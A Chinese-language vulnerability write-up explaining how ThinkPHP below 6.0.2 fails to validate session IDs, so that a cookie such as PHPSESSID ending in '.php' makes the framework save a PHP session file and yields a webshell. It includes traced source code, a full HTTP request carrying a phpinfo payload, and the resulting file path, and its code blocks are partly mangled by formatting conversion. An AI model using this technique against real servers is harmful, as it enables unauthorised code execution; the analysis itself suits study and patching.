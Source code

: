 ```yaml
---
title: Thinkphp < 6.0.2 session id未作过滤导致getshell
id: zhfly3172
---
```


# Thinkphp < 6.0.2 session id未作过滤导致getshell

## 一、漏洞简介

## 二、漏洞影响

Thinkphp < 6.0.2

## 三、复现过程

### 漏洞分析

通过diff github上面的6.0.1和6.0.2的代码可以发现，6.0.1在设置`session id`时未对值进行`ctype_alnum()`校验，从而导致可以传入任意字符。

![image](../img/f7adddb9a067a21b6703f00e65eb4d94.png)

传入任意字符会有什么危害？一般来说程序可能会以session id作为文件名来创建对应的session文件，但是到目前为止这只是猜测。看一下保存session是怎么写的。

```
public function save(): void
{
    $this->clearFlashData();

```
$sessionId = $this-&gt;getId();

if (!empty($this-&gt;data)) {
    $data = $this-&gt;serialize($this-&gt;data);

    $this-&gt;handler-&gt;write($sessionId, $data);
} else {
    $this-&gt;handler-&gt;delete($sessionId);
}

$this-&gt;init = false; 
``` `}` 
```

先获取sessionid，然后作为第一个参数传入`$this->handler->write()`。`$this->handler`在构造函数中被初始化

```
public function __construct($name, SessionHandlerInterface $handler, array $serialize = null)
{
    $this->name    = $name;
    $this->handler = $handler;

```
if (!empty($serialize)) {
    $this-&gt;serialize = $serialize;
}

$this-&gt;setId(); 
``` `}` 
```

可以看出`$handler`的类型是`SessionHandlerInterface`，全局发现这是一个接口，实现这个接口的类有两个，一个是`File`，一个是`Cache`。这里以`File`类为例，我们跟进它的`write()`方法

```
public function write(string $sessID, string $sessData): bool
{
    $filename = $this->getFileName($sessID, true);
    $data     = $sessData;

```
if ($this-&gt;config['data_compress'] &amp;&amp; function_exists('gzcompress')) {
    //数据压缩
    $data = gzcompress($data, 3);
}

return $this-&gt;writeFile($filename, $data); 
``` `}` 
```

这里先通过第一个参数（也就是session id）来构造`$filename`，然后判断是否需要对session数据进行压缩，默认是不需要的，最后return时调用`$this->writeFile()`。先看看文件名是如何构造的，跟进`$this->getFileName()`

```
protected function getFileName(string $name, bool $auto = false): string
{
    if ($this->config['prefix']) {
        $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
    } else {
        $name = 'sess_' . $name;
    }

```
$filename = $this-&gt;config['path'] . $name;
...
return $filename; 
``` `}` 
```

这里直接将第一个参数拼接到路径的最后。跟进之前的`$this->writeFile()`方法

```
protected function writeFile($path, $content): bool
{
    return (bool) file_put_contents($path, $content, LOCK_EX);
} 
```

刺激了，这里直接保存了文件。纵观全局，由于程序未对session id进行危险字符判断，只要将session id写为类似于`xxxx.php`的格式，即可导致session保存成`.php`文件，从而getshell。

### 漏洞复现

通过全局搜索`setId`发现在`think/middleware/SessionInit.php:handle():L59`发生了调用。

```
public function handle($request, Closure $next)
{
    // Session初始化
    $varSessionId = $this->app->config->get('session.var_session_id');
    $cookieName   = $this->session->getName();

```
if ($varSessionId &amp;&amp; $request-&gt;request($varSessionId)) {
    $sessionId = $request-&gt;request($varSessionId);
} else {
    $sessionId = $request-&gt;cookie($cookieName);
}

if ($sessionId) {
    $this-&gt;session-&gt;setId($sessionId);
}
... 
``` 
```

由于`session.var_session_id`默认是空，这里的`$sessionId`的值由`$request->cookie($cookieName)`获得，`$cookieName`经过跟进后发现默认是PHPSESSID。

![image](../img/eb8ceb9f32c8f3c2034b2559f2fd33ab.png)

因此我们只要设置Cookie中的PHPSESSID的值为1234567890123456789012345678.php即可。

我们在index控制器中添加如下action

```
public function testsession2(){
    $username = Request::get('name');
    Session::set('username', $username);
    return 'hi';
} 
```

用于获取name参数，并将之设置到session中。

根据控制器构造数据包

注意 session PHPSESSID= 后面要按照要求必须 32位 可以随便构造!!!

```
POST /tp6/public/index.php/index/test1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/tp6/public/index.php/index/test1
Cookie: PHPSESSID=1234567890123456789012345678.php; 
Upgrade-Insecure-Requests: 1 `key=<?php%20phpinfo();?>` 
```

访问url：`http://127.0.0.1/tp6/public/index.php/index/testsession2?name=`

![image](../img/81509c2dc324614813bb7b4d540278fb.png)

访问session文件，一般位于项目根目录下的`./runtime/session/`文件夹下，也就是`/runtime/session/sess_1234567890123456789012345678.php`

![image](../img/d009828d27f683e8d4680faa96be2875.png)

## 参考链接

> https://xz.aliyun.com/t/7109
